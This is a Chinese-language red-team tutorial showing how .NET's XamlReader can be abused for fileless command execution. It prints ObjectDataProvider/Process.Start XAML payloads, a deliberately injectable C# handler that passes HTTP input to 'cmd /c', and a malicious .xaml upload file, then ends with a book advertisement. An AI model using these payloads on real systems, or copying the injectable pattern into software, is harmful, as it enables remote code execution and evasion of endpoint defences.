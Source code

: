 #  .NET 通过 XAML 实现任意代码执行  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-25 01:03  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，寻找一条干净、无文件、规避防护的命令执行路径一直是行动的关键。传统的 Web Shell、反序列化漏洞、反射加载等方式虽然威力强大，但在 EDR 与主机防护产品，比如 Defender、360、火绒日渐严密的今天，往往难以隐身。  
  
本文将聚焦一个极少被利用的 .NET 攻击面 —— **XamlReader 动态解析 XAML 的特性**  
。通过精心构造的 XAML 载荷，我们可以在目标机器上无文件启动任意系统进程，实现隐蔽的远程命令执行。  
  
**01. 技术背景介绍**  
  
  
  
在 .NET 应用中，WPF 因其强大的界面绘制能力和灵活的数据绑定机制而被广泛使用。与传统的 Windows Forms 不同，WPF 使用一种名为 XAML 的声明式标记语言来描述 UI 元素和数据交互逻辑。  
## 1.1 WPF 框架  
  
WPF 是 Microsoft 在 .NET Framework 3.0 中引入的一套 UI 框架，专为构建丰富客户端应用而设计。与 WinForms 相比，WPF 支持硬件加速渲染、更强的控件组合能力、样式控制、动画、数据绑定等高级特性。在 WPF 应用中，通常通过 XAML 文件来定义界面布局，然后在后台代码中为控件编写逻辑。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMI6UMeEuYBPs645hATYjane3yu3CInZ0ORC3P457KIO09O3MQbgF8Hg/640?wx_fmt=png&from=appmsg "")  
## 1.2 XAML 介绍  
  
XAML 是一种基于 XML 的标记语言，用于声明 UI 组件及其行为。例如，一个简单的按钮控件可以如下声明：  
  
```
<Button Content="点击我" Width="100" Height="50"/>
```  
  
  
XAML 允许嵌套、绑定、动画、数据源等复杂逻辑。例如：  
  
```
<ObjectDataProvider x:Key="launch" ObjectType="{x:Type sys:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><sys:String>calc.exe</sys:String></ObjectDataProvider.MethodParameters></ObjectDataProvider>
```  
  
  
以上声明可在运行时调用 Process.Start("calc.exe")  
 启动计算器。  
  
**02. XamlReader**  
  
  
  
System.Windows.Markup.XamlReader 是 WPF 的核心类之一，存在于 PresentationFramework.dll  
 中。该类提供了一系列方法，可用于将 XAML 字符串或流解析成实际的 .NET 对象。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMn7DUzmnajzZlFhO6qJlM4pt28NIaLAVMQEOr7RsDopZrNSC0Y2p1Ag/640?wx_fmt=png&from=appmsg "")  
## 2.1 动态构造XAML  
  
在支持 WPF 的 Web API、富客户端、插件化平台或用户自定义模板系统中，若系统直接调用了 XamlReader.Parse()  
 来解析用户输入的数据，便存在命令执行的风险，具体代码如下所示。  
  
```
publicstaticvoidCodeInject(string input){StringBuilder xaml =newStringBuilder();    xaml.Append("<ResourceDictionary ");    xaml.Append("xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" ");    xaml.Append("xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\" ");    xaml.Append("xmlns:b=\"clr-namespace:System;assembly=mscorlib\" ");    xaml.Append("xmlns:pro=\"clr-namespace:System.Diagnostics;assembly=System\">");    xaml.Append("<ObjectDataProvider x:Key=\"obj\" ObjectType=\"{x:Type pro:Process}\" MethodName=\"Start\">");    xaml.Append("<ObjectDataProvider.MethodParameters>");    xaml.Append("<b:String>cmd</b:String>");    xaml.Append($"<b:String>/c {input}</b:String>");    xaml.Append("</ObjectDataProvider.MethodParameters>");    xaml.Append("</ObjectDataProvider>");    xaml.Append("</ResourceDictionary>");    XamlReader.Parse(xaml.ToString());}
```  
  
  
上述代码段中，程序利用StringBuilder  
类动态构建了一个  
XAML  
字符串，该字符串定义了一个ResourceDictionary。  
  
其中包含了一个ObjectDataProvider  
元素，这个ObjectDataProvider  
被配置为启动System.Diagnostics.Process  
类的Start  
方法，进而调用cmd.exe /c  
命令运行指定的程序，如winver.exe  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMTiaibWdfK6uZaV1mIJib4cLVdsoM8prpXoUdV0wenEqnicxjZQ1quFeNPQ/640?wx_fmt=png&from=appmsg "")  
  
  
如果部署了如下 ashx  
 接口，通过  
HTTP  
请求访问XamlReaderParseSpy.ashx?input=winver  
，可以触发此  
XAML  
代码的解析并成功启动进程。  
  
```
publicvoidProcessRequest(HttpContext context){string cmd = context.Request["input"];CodeInject(cmd);}
```  
  
## 2.2 文件方式触发  
  
XamlReader.Load 可解析来自本地磁盘的 .xaml  
 文件，若系统允许用户上传或修改 .xaml  
 配置，攻击者可构造恶意文件并上传，等待后台加载。  
  
```
<Window xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"        xmlns:sys="clr-namespace:System;assembly=mscorlib"        xmlns:local="clr-namespace:System.Diagnostics;assembly=System"><Window.Resources><ObjectDataProvider x:Key="cmd" ObjectType="{x:Type local:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><sys:String>calc</sys:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></Window.Resources></Window>
```  
  
  
通过LoadAsync方法正常解析Dictionary2.xaml文件中保存的攻击负载，成功启动本地计算器进程，如下图所示。  
  
  
综上，XAML 是强大且灵活的 UI 构建语言，而 XamlReader 作为其解析入口，在客户端开发中不可或缺。然而，这样的灵活性，也意味着红队可以利用它实现代码执行。在代码审计、漏洞挖掘和红队测试中，识别并利用这些非常规路径，是突破防御系统的关键一环。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaM9dwmUUIv73sywQo4t1lZUueVBOn7dTgs4s8Sq0hec7PtyHDYqYdnhA/640?wx_fmt=png&from=appmsg "")  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！**  
  
**感谢大家的支持，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，京东自营店全套仅售127元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
